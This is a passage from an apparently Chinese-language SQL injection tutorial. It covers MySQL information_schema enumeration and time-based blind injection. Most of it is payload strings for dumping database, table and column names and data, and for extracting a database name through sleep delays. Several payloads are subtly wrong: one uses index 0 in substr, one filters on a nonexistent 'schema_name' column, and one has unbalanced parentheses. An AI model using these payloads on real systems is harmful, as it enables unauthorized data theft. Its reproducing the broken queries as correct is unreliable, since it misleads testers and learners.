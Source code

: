 

## 0x04 information_schema查询

在MySQL 5.0以上就有information_schema库，记录所有数据库名、表名和列名信息，因此可以利用该内置库查询信息，乃至脱库。

```
# 查看数据库名
id=-1' union select schema_name from information_schema.schemata -- -

# 查看表名
id=-1' union select table_schema, table_name from information_schema.tables -- -

# 查找列名
id=-1' union select table_schema, column_name from information_schema.columns where schema_name='[库名]' and table_name='[表名]' -- -

# 列举某个数据库下的所有表名
id=-1' union select group_concat(table_name) from information_schema.tables where table_schema = '[库名]' -- -

# 列举某个表下的所有列名
id=-1' union select group_concat(column_name) from information_schema.columns where table_name = '[表名]' -- -

# 直接就用select查询数据
id=-1' union select [列名] from [表名] -- -
```

注：MySQL版本小于5.0则需要字典爆破库名、表名和列名。



## 0x05 盲注

盲注是注入攻击的一种，向数据库发送true或false这样的问题，并根据应用程序返回的信息判断结果，这种攻击的出现是因为应用程序配置为只显示常规错误，但并没有解决SQL注入存在的代码问题。

#### 1. 基于时间的盲注

```
id=1' and if(ascii(substr(database(),0,1))<N, sleep(3), 1) -- -
id=1' and if(ascii(substr(database(),0,1))>N, sleep(3), 1) -- -
id=1' and if(ascii(substr(database(),0,1))=N, sleep(3), 1) -- -
```

当数据库名第一个字母的ascii码小于、大于或等于N时，执行一次sleep(3)函数等待3秒，依据响应的时间，可以判断执行成功或失败，进而逐步找出字符并拼接形成数据库名。

将database()函数替换成其他注入语句就可以进行其他查询。

另外还有其他时间盲注方法：

```
# 当前数据库名长度大于N时，延时5秒
id=1' and (select if(length(database())>N, sleep(5), null) -- -

# 当前数据库名长度大于N时，不延时，反之延时5秒
id=-1' or (length(database()))>N or if(1=1, sleep(5), null) or '1'='1 
```
